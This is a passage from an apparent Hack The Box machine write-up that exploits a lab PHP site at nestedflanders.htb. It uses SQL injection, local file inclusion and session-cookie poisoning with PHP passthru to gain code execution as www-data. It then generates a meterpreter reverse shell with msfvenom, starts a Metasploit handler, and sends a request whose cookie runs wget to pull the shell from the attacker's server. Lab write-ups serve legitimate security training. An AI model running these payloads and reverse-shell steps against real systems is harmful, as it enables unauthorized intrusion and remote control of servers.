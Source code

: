 ```
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
X-Upstream: 127.0.0.1:8080
...


<div class="container">
<div class="row">
<!-- <div align="center"> -->
PHPSESSID|s:26:"0eeec3brj9f8bs109u6ssli5p3";EXEC|s:27:"=www-data
...
```
By creating an `EXEC` cookie and smuggling `<?php passthru('whoami')?>;` in it, we are able to see we are running arbitrary commands as `www-data`.

### Local File Inclusion to Shell
With RCE established, we will create a PHP meterpreter shell and execute it on the target.

Create a meterpreter shell
```
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.16.12 LPORT=80 > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1110 bytes
```
Start Metasploit
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 80
LPORT => 80
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.12:80 
```

Our php shell will be hosted on a simple HTTP server. We then just need to use our RCE primitive to make a wget call to fetch our shell, and another to make a call to `php` to execute our shell. 

Host the server:
```
$ sudo python -m http.server 443                                                 
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

Call wget to fetch the php shell:
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_0eeec3brj9f8bs109u6ssli5p3%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3; EXEC=<?php passthru('cd /tmp && wget http://10.10.16.12:443/shell.php')?>;
...
```
